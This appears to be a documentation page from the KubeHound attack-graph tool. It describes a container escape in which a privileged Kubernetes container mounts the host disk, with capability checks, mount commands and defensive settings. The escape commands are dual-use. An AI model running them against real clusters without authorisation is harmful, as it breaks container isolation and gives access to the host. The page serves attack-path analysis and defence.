 ```yaml
---
title: CE_PRIV_MOUNT
---
```


<!--
id: CE_PRIV_MOUNT
name: "Container escape: Mount host filesystem"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_PRIV_MOUNT

| Source                                | Destination                 | MITRE ATT&CK                                                        |
| ------------------------------------- | --------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Mount the host disk and gain access to the host via arbitrary filesystem write

## Details

A container running with `privileged: true` disables almost all the container isolation mechanisms. As such an attacker can trivially gain access to the host's resources, including the disk, to escape the container. In this attack, we simply list the disks on the host machine, mount them into the container and exploit a privileged file write to gain execution on the host.

## Prerequisites

Execution within a privileged container process.

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_PRIV_MOUNT.yaml).

## Checks

From within a running container, determine whether it is running with as privileged by examining capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff: 000001ffffffffff

# Decode the capabilities (on current box or offline) and check for CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=000001ffffffffff | grep cap_sys_admin
```

Check that the host disks are visible to our container process:

```bash
apt update && apt install fdisk
fdisk -l 
# -> /dev/vda1
```

## Exploitation

Mount the disks into the container

```bash
mkdir -p /mnt/hostfs
mount /dev/vda1 /mnt/hostfs
ls -lah /mnt/hostfs/
```

With the disk now writeable from the container, follow the steps in [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#exploitation).

## Defences

### Monitoring

+ Monitor `mount` events originating from containers
+ See [EXPLOIT_HOST_WRITE](./EXPLOIT_HOST_WRITE.md#defences)

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with `privileged` enabled.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapePrivMount](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_priv_mount.go)

## References:

+ [Bad Pods: Kubernetes Pod Privilege Escalation](https://bishopfox.com/blog/kubernetes-pod-privilege-escalation)
+ [7 Ways to Escape a Container](https://www.panoptica.app/research/7-ways-to-escape-a-container)
